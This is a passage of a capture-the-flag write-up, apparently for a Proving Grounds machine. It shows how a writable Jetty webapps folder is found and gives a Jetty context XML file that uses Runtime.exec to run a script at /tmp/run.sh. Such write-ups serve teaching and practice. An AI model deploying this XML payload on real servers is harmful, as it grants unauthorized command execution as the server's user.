 The jetty server is vulnerable to remote code execution vulnerability.

![img](/assets/images/CTF/Proving_Grounds/GLPI/jetty.jpg)

[More](https://twitter.com/ptswarm/status/1555184661751648256)

## Exploitation

- Direct to `/opt/jetty/jetty-base/` and check for any web apps folder.

```sh

l 24
drwxr-xr-x 5 root  root  4096 Mar 21  2023 .
drwxr-xr-x 7 root  root  4096 Jan 25  2023 ..
-rw-r--r-- 1 root  root   104 Mar 21  2023 jetty.state
drwxr-xr-x 2 root  root  4096 Jan 25  2023 resources
drwxr-xr-x 2 root  root  4096 Jan 25  2023 start.d
drwxr-xr-x 2 betty betty 4096 Jan 25  2023 webapps      #webapp
betty@glpi:/opt/jetty/jetty-base$ 
```
- Create a xml file as below.

```xml
<?xml version="1.0"?>
<!DOCTYPE Configure PUBLIC "-//Jetty//Configure//EN" "https://www.eclipse.org/jetty/configure_10_0.dtd">
<Configure class="org.eclipse.jetty.server.handler.ContextHandler">
    <Call class="java.lang.Runtime" name="getRuntime">
        <Call name="exec">
            <Arg>
                <Array type="String">
                    <Item>/tmp/run.sh</Item>
                </Array>
            </Arg>
        </Call>
    </Call>
</Configure>
```
